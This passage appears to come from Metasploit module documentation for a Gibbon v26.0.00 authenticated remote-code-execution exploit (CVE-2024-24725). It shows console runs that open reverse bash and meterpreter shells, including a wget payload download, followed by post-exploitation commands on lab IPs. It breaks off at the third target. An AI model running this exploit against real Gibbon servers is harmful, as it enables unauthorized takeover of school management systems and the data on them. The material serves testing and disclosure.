 ```shell
Server username: SYSTEM
meterpreter > pwd
C:\wamp64\www
meterpreter >
```
### Target 1 - Unix Command `cmd/unix/reverse_bash` session
```shell
msf exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set target 1
target => 1
msf exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.44:80 can be exploited.
[+] The target appears to be vulnerable. Gibbon v26.0.00
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 2 opened (192.168.201.8:4444 -> 192.168.201.44:33118) at 2024-04-01 19:51:43 +0000

pwd
/var/www
uname -a
Linux cuckoo 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),29(audio)
```
### Target 2 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```shell
msf exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set target 2
target => 2
msf exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.44:80 can be exploited.
[+] The target appears to be vulnerable. Gibbon v26.0.00
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:8080/gn2mFk
[*] Client 192.168.201.44 (Wget/1.21.2) requested /gn2mFk
[*] Sending payload to 192.168.201.44 (Wget/1.21.2)
[*] Sending stage (3045380 bytes) to 192.168.201.44
[*] Meterpreter session 3 opened (192.168.201.8:4444 -> 192.168.201.44:46276) at 2024-04-01 19:57:04 +0000
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.44
OS           : Ubuntu 22.04 (Linux 5.15.0-101-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter > exit
```
### Target 3 - Windows Command `cmd/windows/powershell/x64/meterpreter/reverse_tcp` session
```shell
msf exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set target 3
```